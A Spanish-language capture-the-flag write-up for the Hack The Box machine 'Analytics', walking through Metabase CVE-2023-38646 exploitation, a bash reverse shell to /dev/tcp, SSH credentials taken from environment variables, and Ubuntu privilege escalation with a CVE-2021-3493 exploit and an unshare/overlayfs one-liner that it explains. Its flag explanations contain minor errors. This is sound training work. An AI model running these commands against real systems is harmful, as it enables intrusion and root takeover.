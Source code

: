 ![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/ad21b20e-1655-4bdc-ab22-396490f4461c)# Analytics
- Comenzamos escaneando el objetivo, los puertos 22 y 80 están expuestos:
~~~ bash 
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn -sV 10.10.11.233
~~~

![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/613ad81c-f162-468e-b0f9-1d120b39975c)

- Añadimos **10.10.11.233 analytical.htb** a /etc/hosts y podemos ver una pagina por el puerto 80
- Al enumerar la pagina, nos encontramos con un subdominio en http://data.analytical.htb:

![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/17a42111-3161-468d-8227-2052895d5a2d)
![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/e2d15162-9fba-4c16-a524-b1400ce402af)

- También encontré el [CVE-2023-38646](https://infosecwriteups.com/cve-2023-38646-metabase-pre-auth-rce-866220684396) que según su descripción, permite omitir el login a través de una vulnerabilidad en la api de Metabase
- El CVE nos indica que debemos buscar un **setup-token** en la ruta http://vulnerablehost.com/api/session/properties
 
![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/2b07035b-5a06-4183-bbb1-1b6106820cd5)

- Perfecto, ahora utilizamos el [PoC del exploit](https://github.com/securezeron/CVE-2023-38646?source=post_page-----bd3421cba76d--------------------------------) creado por securezeron para llevar a cabo la explotación con los parametros requeridos
- Tras probar varias veces, el PoC no me envió una conexión inversa, así que decidí revisar el codigo, y cambiar el payload

![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/c9c14f20-4e6f-4f74-b1ec-5e5c9242178f)

- Emplea un reverse shell encodeado en base64, por lo que opté por enviarlo por una solicitud hacia el endpoint ubicado en **/api/setup/validate**, mas en esta parte:

![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/bb724431-cd72-4681-9480-33c8ce550d44)

Yo prefiero utilizar 
~~~ bash 
bash -c "bash -i >&/dev/tcp/<ip>/<port 0>&1>"
~~~

![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/2b455954-d0eb-4581-871e-ca2e09ef1c18)

- Y estamos dentro :D

![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/0b5c1204-5002-4cc9-93ec-087375f8058d)

- Después de enumerar un poco, podemos descubrir que nos encontramos dentro de un docker:

![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/09fdd2c5-5ee5-4569-a0dd-474e78ccaace)

- Por lo que decidí revisar algunas variables de entorno, y encontramos una contraseña, probablemente de ssh:

![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/b451245a-c596-4740-a012-24bfd65c5a7c)

- Y en efecto que eran de ssh, ahora tenemos una shell mucho mas estable:

 ![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/70a88eb6-22a8-41d5-b2a3-5ec1ac98a25d)

  - Primera flag :D
![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/55354378-feea-4495-b996-13a22d06b0a8)


***
<h3>PrivEsc</h3>

- Después de enumerar durante buen rato, me perdí al no encontrar posibles verctores de ataque, hasta que decidí mirar la versión del kernel y del sistema operativo

![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/6c095b34-77bb-42b2-8f3e-a6befcd69847)

  - Del kernel no encontré nada, pero si encontré un [CVE para la versión de ubuntu](https://github.com/briskets/CVE-2021-3493/blob/main/exploit.c)
  - Dado que es un exploit binario y requiero compilarlo, me di cuenta que la maquina victima no tiene gcc instalado, así que lo compilé en mi maquina y lo compartí por un servidor de python3

![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/1071f439-186e-4232-a04f-a1dc4eb31d7a)

- Y somos root:
![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/f529e177-aca6-4e4f-a41e-1df31901ddc5)

**Extra**

- Encontré otros [CVE-2023-2640 & CVE-2023-32629 en un foro de Reddit](https://www.reddit.com/r/selfhosted/comments/15ecpck/ubuntu_local_privilege_escalation_cve20232640/?rdt=53261) donde se emplea una tecnica alterna para escalar a root a través de la creación de un entorno aislado dentro del equipo, con unshare, con el cual cambia el uid a uno perteneciente a root:

~~~ bash 
unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/; setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*; u/python3 -c 'import os;os.setuid(0);os.system(\"id\")'";rm -rf l u w m
~~~~

![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/aa089137-e5e2-448f-b17f-e8d44e02b9e8)

**1- unshare -rm sh -c "...":**
Este comando utiliza la utilidad unshare para crear un nuevo espacio de nombres <namespace> con opciones -rm. Las opciones significan lo siguiente:
- r: Propaga una jerarquía de directorios nueva (root).
- m: Propaga un punto de montaje nuevo.
- sh -c "...": Ejecuta el shell sh en el nuevo espacio de nombres y ejecuta los comandos contenidos entre las comillas dobles "...".

2- mkdir l u w m && cp /u*/b*/p*3 l/; setcap cap_setuid+eip l/python3; mount - overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*; u/python3 -c 'import os;os.setuid(0);os.system(\"bash\")'":

Este comando realiza una serie de operaciones en el nuevo espacio de nombres creado:
- mkdir l u w m: Crea los directorios l, u, w, y m.
- cp /u*/b*/p*3 l/: Copia archivos que coincidan con el patrón /u*/b*/p*3 al directorio l.
- setcap cap_setuid+eip l/python3: Establece capacidades especiales en el archivo l/python3, que permiten la ejecución con capacidades adicionales (en este caso, la capacidad cap_setuid y cap_eip).
- mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m: Monta un sistema de archivos overlay en el directorio m. Esto crea una capa que combina los archivos en l y u, donde l es la capa inferior (lowerdir), u es la capa superior (upperdir), y w es el directorio de trabajo (workdir). Esto permite la modificación de archivos sin afectar la capa inferior.
- touch m/*: Crea archivos vacíos en la capa combinada m.
- u/python3 -c 'import os;os.setuid(0);os.system("id")': Ejecuta el intérprete de Python (python3) que se encuentra en la capa superior u, y en ese intérprete, ejecuta un script que cambia el UID al de root (0) y luego ejecuta el comando bash para crear un entorno interactivo con las propiedades de root.
- rm -rf l u w m: Este comando solo elimina recursivamente los directorios l, u, w, y m
